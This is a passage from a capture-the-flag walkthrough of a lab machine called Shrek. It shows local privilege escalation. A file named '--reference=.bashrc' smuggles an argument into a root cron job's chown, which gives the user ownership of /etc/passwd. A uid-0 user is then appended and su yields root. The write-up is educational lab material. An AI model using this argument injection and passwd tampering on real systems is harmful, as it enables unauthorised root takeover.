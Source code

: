 
Once the cron runs, `/etc/passwd` is now owned by sec:

    
    
    [sec@shrek src]$ ls -l /etc/passwd
    -rw-r--r-- 1 sec users 968 Jul 17 02:40 /etc/passwd
    

_[1 July 2023 update]_ : It seems that sometime over the years the ownership
of `user.txt` has changed from `sec:user` to `root:root`, so the commands as
shown above don’t work. Thanks to InvertedClimbing for the tip on this one!
Any other file owned by sec would still work. I just need to give it a file
whose permissions I want to copy. So something like this will still work:

    
    
    [sec@shrek src]$ ln -s /home/sec/.bashrc
    [sec@shrek src]$ touch -- --reference=.bashrc
    [sec@shrek src]$ ln -s /etc/passwd
    

### passwd

Now I just need to add a root user to `/etc/passwd`. I’ll create a hash:

    
    
    [sec@shrek src]$ openssl passwd -1 0xdf
    $1$LDbqXSxU$TnJPI4lNp/q00QKZYZw0G.
    

Now I’ll add the string to `passwd`, with uid and gui both 0 for root:

    
    
    [sec@shrek src]$ echo 'oxdf:$1$LDbqXSxU$TnJPI4lNp/q00QKZYZw0G.:0:0:pwned:/root:/bin/bash' >> /etc/passwd
    

Now use `su` to become root:

    
    
    [sec@shrek src]$ su oxdf                                                                 
    Password:                                                                                
    [root@shrek src]#
    

And grab `root.txt`:

    
    
    [root@shrek ~]# cat root.txt
    54d3c885************************
    

## Beyond Root

### thoughts.txt

`thoughts.txt` is a file that sits in `/usr/src` and is owned by root:

    
    